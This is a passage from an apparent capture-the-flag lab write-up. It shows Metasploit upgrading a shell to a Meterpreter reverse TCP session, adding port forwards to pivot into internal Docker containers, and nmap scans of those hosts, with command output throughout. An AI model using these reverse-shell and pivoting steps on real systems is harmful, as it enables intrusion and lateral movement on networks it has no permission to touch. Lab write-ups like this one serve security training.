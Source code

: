 Metasploit has a built in upgrade path to Meterpretere using `sessions -u`:

```

msf exploit(multi/handler) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.10.14.14:4433 
[*] Sending stage (861480 bytes) to 10.10.10.94
[*] Meterpreter session 2 opened (10.10.14.14:4433 -> 10.10.10.94:58956) at 2018-07-27 06:37:15 -0400
[*] Command stager progress: 100.00% (773/773 bytes)
msf exploit(multi/handler) > sessions -i 2
[*] Starting interaction with 2...

meterpreter >

```

### Adding Forwards

Now I can add forwards over this session. I’ll still do everything else through my initial session, because I’m more comfortable there. But if i want to add a route, I’ll issue a command such as:

```

meterpreter > portfwd add -l 80 -r 192.168.1.6 -p 80

```

That will add a pipe from 80 on my local machine to 80 on 192.168.1.6.

I’ll show these as I bring them up throughout (the one above was just an example).

## www / redis Containers

### Note About IPs

One thing to note - on each reset / boot, Docker seems to randomize the IP addresses of the three containers, nodered, www, and redis. They always seem to be .2, .3, and .4, but which is which is something I need to determine each time. For the sake of this post, I’m working with redis as .2, nodered as .3, and www as .4.

### nmap

Get an `nmap` scan of these two new hosts:

```

# ./nmap-static -p- -sT --min-rate 5000 172.19.0.2

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2018-07-24 11:19 UTC
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for reddish_composition_redis_1.reddish_composition_internal-network (172.19.0.2)                                                                       
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.00016s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE
6379/tcp open  unknown
MAC Address: 02:42:AC:13:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 2.49 seconds
# ./nmap-static -p- -sT --min-rate 5000 172.19.0.4
```